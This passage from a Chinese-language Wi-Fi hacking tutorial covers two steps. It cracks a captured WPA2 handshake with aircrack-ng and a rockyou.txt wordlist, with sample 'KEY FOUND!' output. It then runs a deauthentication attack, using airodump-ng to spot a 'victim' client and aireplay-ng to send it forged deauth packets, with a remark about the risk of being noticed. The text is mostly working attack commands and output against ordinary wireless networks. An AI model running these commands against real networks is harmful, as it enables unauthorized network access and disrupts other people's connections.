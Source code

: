 注意，如果网络密码不再这个单词文件话，你将不能破解密码。

```bash
# -a2 指定 WPA2，-b 是 BSSID，-w 是字典文件
aircrack-ng -a2 -b 9C:5C:8E:C9:AB:C0 -w rockyou.txt hackme.cap
```

如果密码被破解了，你将会在终端看到一个 `KEY FOUND!` 消息，后面跟着的文本就是网络密码。

```
                                 Aircrack-ng 1.2 beta3


                   [00:01:49] 111040 keys tested (1017.96 k/s)


                         KEY FOUND! [ hacktheplanet ]


      Master Key     : A1 90 16 62 6C B3 E2 DB BB D1 79 CB 75 D2 C7 89
                       59 4A C9 04 67 10 66 C5 97 83 7B C3 DA 6C 29 2E

      Transient Key  : CB 5A F8 CE 62 B2 1B F7 6F 50 C0 25 62 E9 5D 71
                       2F 1A 26 34 DD 9F 61 F7 68 85 CC BC 0F 88 88 73
                       6F CB 3F CC 06 0C 06 08 ED DF EC 3C D3 42 5D 78
                       8D EC 0C EA D2 BC 8A E2 D7 D3 A2 7F 9F 1A D3 21

      EAPOL HMAC     : 9F C6 51 57 D3 FA 99 11 9D 17 12 BA B6 DB 06 B4
```

## Deauth Attack

Deauth 攻击会将伪造的身份验证数据包从您的计算机发送到连接到您尝试破解的网络的客户端。 这些数据包包括伪造的 “发件人” 地址，使得它们像客户端那样从接入点本身发送出去。 收到这样的数据包后，大多数客户端断开与网络的连接，并立即重新连接，如果您正在使用`airodump-ng`进行侦听，就能捕获到 4-way handshake。

使用 `airodump-ng` 监视特定接入点（使用 `-c channel --bssid MAC`），直到看到客户端（`STATION`）连接。 连接的客户端看起来像这样，`64：BC：0C：48：97：F7` 是客户端 MAC。

```
 CH  6 ][ Elapsed: 2 mins ][ 2017-07-23 19:15 ]

 BSSID              PWR RXQ  Beacons    #Data, #/s  CH  MB   ENC  CIPHER AUTH ESSID

 9C:5C:8E:C9:AB:C0  -19  75     1043      144   10   6  54e  WPA2 CCMP   PSK  ASUS

 BSSID              STATION            PWR   Rate    Lost    Frames  Probe

 9C:5C:8E:C9:AB:C0  64:BC:0C:48:97:F7  -37    1e- 1e     4     6479  ASUS
```

现在，先不管这个正在运行的 `airodump-ng` ，打开一个新的终端。 我们用 `aireplay-ng` 命令向我们的受害者客户端发送伪造的解除认证数据包，强制其重新连接到网络，以便在此过程中抓取 handshake。

```bash
# -0 2 指定了我们将发送 2 个解除认证的数据包。如果需要
# 可以增加这个数字，但随之而来客户端网络可能中断，有被人注意到的风险。
# -a 是接入点的 MAC
# -c 是客户端的 MAC
aireplay-ng -0 2 -a 9C:5C:8E:C9:AB:C0 -c 64:BC:0C:48:97:F7 mon0
```
